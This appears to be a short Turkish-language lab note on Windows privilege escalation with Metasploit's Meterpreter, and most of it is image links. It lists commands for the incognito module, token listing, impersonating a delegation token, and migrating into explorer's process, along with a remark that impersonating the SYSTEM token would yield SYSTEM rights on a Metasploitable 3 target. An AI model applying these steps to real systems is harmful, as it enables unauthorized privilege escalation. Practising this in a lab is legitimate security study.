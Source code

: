 
---

## Devam ediyoruz.

## #load-incognito

![[Pasted image 20240206130738.png]]
### list_tokens -u

![[Pasted image 20240206130927.png]]
![[Pasted image 20240206130945.png]]

---
### meterpreter > impersonate_token "KALI\kali"
![[Pasted image 20240206134124.png]]
#### Buradaki Delegation Tokens ismini "" arasına yazıyoruz
Delegation Tokens Available
KALI\kali

![[Pasted image 20240206131159.png]]

### Burada getuid çalıştırmaya çalıştık olmadı.

## pgrep explorer
## migrate 1536 yapınca tekrar çalışmaya başladı.

![[Pasted image 20240206133934.png]]

### Yetkiler Arttı ama Hala alt yetkili user'ız

![[Pasted image 20240206134017.png]]

![[Pasted image 20240206134521.png]]
NT Authority\system token'ınını impersote yaparsan getuid NT AUTh olabilriz.

## Metasploitable 3 Windows'te Denedim
![[Pasted image 20240207005526.png]]
### Direk Başarılı oldu




## Burada PATATO ATTACK yapılması gerekiyor
